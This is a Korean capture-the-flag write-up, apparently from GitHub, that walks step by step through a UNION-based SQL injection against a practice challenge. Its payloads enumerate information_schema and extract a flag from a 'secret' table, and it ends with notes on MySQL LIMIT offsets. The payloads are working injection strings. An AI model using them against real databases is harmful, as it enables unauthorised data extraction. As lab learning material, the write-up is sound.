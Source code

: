 ```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,CHARACTER_SET_NAME FROM CHARACTER_SETS-- 
```
> 이렇게 했더니 안나온다 왜?!?!?!?!?!?!?

`doldol' AND 1=0 UNION SELECT 1,2,3,4,5,user()-- `
> 이게 또 database()만 있는게 아니구나 
<img width="1157" alt="Image" src="https://github.com/user-attachments/assets/f5eab93f-3b99-4071-bbb9-8843a1f0b798" />

```sql
doldol' and '1'='0' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables LIMIT 1,1-- 
```
> information_schema.tables 에서 하나만 나온다는게 Limit 가 걸려있다는 거였는데 너무 늦게 알았다..

<img width="1138" alt="Image" src="https://github.com/user-attachments/assets/a84caa94-4b7f-438d-9ca9-bfce2e48b644" />


### 정신 차린 구간 

```sql
doldol' AND '1'='0' UNION SELECT 1,2,3,4,5,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'--
```
> flag_honey 테이블 말고도 game_user,secret 존재한다는 것을 확인 
<img width="1141" alt="Image" src="https://github.com/user-attachments/assets/31aa482f-907e-410d-aed4-0b3b285b1627" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,column_name FROM information_schema.columns WHERE table_name='secret'-- 
```
> 수상해보이는 sceret 테이블에서 flag 컬럼을 확인했습니다.
<img width="1145" alt="Image" src="https://github.com/user-attachments/assets/32a7d3b5-0ca0-4439-a0b6-ed436da71030" />

```sql	
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM secret-- 
```
> 하핳하.. 또 속았다. 
<img width="1130" alt="Image" src="https://github.com/user-attachments/assets/897b0be2-2878-45b1-86c6-a6fde2647e87" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM secret LIMIT 1,1-- 
```
> 휴 드디어 찾았다


### 문제에서 배운 것 정리 
SQL에서 `LIMIT`은 **쿼리 결과의 행 수를 제한**할 때 사용됩니다.  
MySQL 기준으로 `LIMIT a, b`는 다음을 의미합니다:

- `a` : **건너뛸 행(row)의 개수** (offset)
- `b` : **가져올 행(row)의 개수**

```
... FROM secret LIMIT 0,1--  → 첫 번째 레코드  
... FROM secret LIMIT 1,1--  → 두 번째 레코드  
... FROM secret LIMIT 2,1--  → 세 번째 레코드
```
[총 걸린 기간 : 2일]